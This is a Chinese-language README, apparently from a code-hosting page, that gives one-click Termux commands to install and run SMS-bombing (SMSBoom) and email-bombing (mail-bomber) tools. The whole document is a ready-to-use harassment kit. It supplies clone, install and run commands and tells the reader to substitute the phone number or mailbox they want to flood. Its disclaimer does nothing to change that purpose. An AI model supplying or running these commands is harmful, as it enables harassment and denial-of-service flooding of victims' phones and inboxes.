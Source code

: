 # 概述
  
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)
- 若你没有科学环境可以自行搜索下载，或者点击[这里](https://m.youxibao.com/app/15333.html)
  
- 假如你在代码使用的过程中出现
>Do you want to continue? [Y/n]
>
- 直接回车enter即可
  
# 一键代码使用
   ## 短信轰炸
  
  `pkg install git && pkg install python && pkg install openssl &&  git clone https://github.com/AdminWhaleFall/SMSBoom.git/ && cd SMSBoom && pip install -r requirements.txt && python smsboom.py`
- 直接粘贴代码进入即可，后续可以直接使用下列指令
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号

  ## 邮箱轰炸
  
  在使用之前配置
  
 `pkg install git && pkg install php && pkg install python && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber `
 

### 无需邮箱但无法指定内容
   
更新接口（可选）

`php index.php update-nodes`

后续使用

`cd mail-bomber;php index.php start-bombing 邮箱`

替换要轰炸的邮箱


### 邮箱轰炸 (需邮箱但可以指定内容)

   `cd mail-bomber;python cat.py`
   
   按照提示输入即可


# 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令造成的事故与损失，与作者无关


